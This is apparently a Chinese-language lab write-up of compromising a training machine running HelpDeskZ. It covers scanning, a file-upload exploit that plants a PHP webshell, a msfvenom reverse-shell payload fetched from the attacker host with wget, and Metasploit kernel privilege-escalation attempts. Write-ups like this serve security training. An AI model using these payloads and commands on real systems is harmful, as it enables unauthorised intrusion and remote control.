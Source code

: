 ```yaml
---
title: k-secret(File upload)
categories:
- training
tags:
- training
---
```

10.10.10.121
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## 80

访问10.10.10.121:80，Apache/2.4.18 (Ubuntu) ，默认配置页面

```
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

http://10.10.10.121/support/
页面上的登陆表单，有csrf参数，不允许爆破弱口令

换一个字典
apache-user-enum-1.0.txt
gobuster -u http://10.10.10.121:80 -w /usr/share/wordlists/dirbuster/apache-user-enum-1.0.txt
```
#### 目录扫描
- gobuster -u http://10.10.10.121:80/support/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/uploads (Status: 301)
/css (Status: 301)
/includes (Status: 301)
存在上传目录，302跳转到apache默认配置页面
```
- gobuster -u http://10.10.10.121/support/uploads -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
/articles (Status: 301)
/tickets (Status: 301)
```
- gobuster -u http://10.10.10.121/support/uploads/tickets -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

#### exp尝试
- searchsploit help deskZ
```
HelpDeskZ <= v1.0.2 - Unauthenticated Shell Upload
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

searchsploit -m exploits/php/webapps/40300.py
python 40300.py  http://10.10.10.121:80/support/ ports.txt
失败
---
python 40300.py http://10.10.10.121/support/uploads/tickets whale.php

连接错误
requests.exceptions.ConnectionError: HTTPConnectionPool(host='10.10.10.121', port=80): Max retries exceeded with url: /support/uploads/tickets/1cd2ed348346b00c48d3f78579d6431d.php (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7f0def11a290>: Failed to establish a new connection: [Errno 110] Connection timed out',))
---
searchsploit -m exploits/php/webapps/41200.py
需要一个可以登陆的口令
```
- 尝试文件上传
http://10.10.10.121/support/?v=submit_ticket&action=displayForm

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/5.PNG)

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/6.PNG)

- 尝试github的exp
```
wget https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit

python exploit

python exploit http://10.10.10.121/support/uploads/tickets whale.php

[https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit](https://raw.githubusercontent.com/trevlee/helpdeskz_exploit/master/exploit)
```
观察exp，是通过时间推算出上传的php脚本的名称，然后组合baseurl，查看状态码是否是200。

如果是200，说明上传成功。

![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/2.PNG)

首先上传一个php脚本，上传地址参考上述步骤“尝试文件上传”,内容为`<?php echo(system($_GET["cmd"])); ?>`

![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/1.PNG)

成功上传webshell

## 3000 port
```
10.10.10.121:3000
{"message":"Hi Shiv, To get access please find the credentials with given query"}

X-Powered-By: Express

searchsploit Express
searchsploit Node.js

nikto -h http://10.10.10.121:3000 > nikto.txt

gobuster -u http://10.10.10.121:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
结果，没有发现任何存在目录
```
## 提权
#### 信息搜集
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/3.PNG)
```
cmd=uname+-a
Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
64位linux，ubuntu

pwd
/var/www/html/support/uploads/tickets

cmd=cat+/home/help/user.txt
```
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/4.PNG)

获得help用户的webshell，如果不会这一步，参考https://whale3070.github.io/tag/#/command%20execution

---
查看内核版本后，searchsploit linux 4.4.0，根据结果，值得尝试msf suggester。

生成64位msf回连载荷，上传
```
msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=6678 -f elf -o payload.elf
python -m SimpleHTTPServer 8001
```
攻击机webshell:
```
wget http://10.10.14.2:8001/payload.elf -P /tmp
chmod +x /tmp/payload.elf
```
本地监听：
```
msfconsole
handler -H 10.10.14.2 -P 6678 -p linux/x64/meterpreter_reverse_tcp
```
攻击机webshell:	`./payload.elf`

本地监听，成功回连msf payload:
```
use post/multi/recon/local_exploit_suggester
set SESSION 2

[+] 10.10.10.121 - exploit/linux/local/bpf_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/bpf_sign_extension_priv_esc: The target appears to be vulnerable.
[+] 10.10.10.121 - exploit/linux/local/glibc_realpath_priv_esc: The target appears to be vulnerable.


use exploit/linux/local/bpf_priv_esc
set SESSION 2
set LHOST 10.10.14.2
set LPORT 6679
show options
run
失败

---
use exploit/linux/local/bpf_sign_extension_priv_esc
set payload linux/x64/meterpreter_reverse_tcp
set LHOST 10.10.14.2
set LPORT 6679
set SESSION 2
show options
run
```
![7](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/04-25-02/7.PNG)

